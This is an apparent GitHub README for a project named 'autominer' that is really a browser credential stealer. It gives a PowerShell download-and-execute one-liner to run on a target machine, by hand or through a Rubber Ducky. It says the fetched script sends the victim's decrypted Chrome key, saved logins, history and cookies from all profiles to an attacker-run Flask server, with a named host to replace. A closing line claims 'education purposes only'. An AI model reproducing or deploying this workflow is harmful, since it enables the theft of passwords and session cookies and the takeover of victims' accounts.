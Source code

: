 # autominer
this is one of my projects that i worked on when i have time.

activate `irx [url to get script] | iex` on target with a rubber duckey, or by typing into a powershell window..

`get` is a powershell script.


run `upload.py` as server to get data from target.

also change url in `get` to your server instead of `lucasz228.us.to`


`get` sends 
- decrypted chrome aes key
- chrome login data from all profiles
- chrome history from all profiles
- chrome cookies from all profiles

to the server.


## install:
```pip install flask
```

## this is for education purposes only.
## im not responsible for any damages.
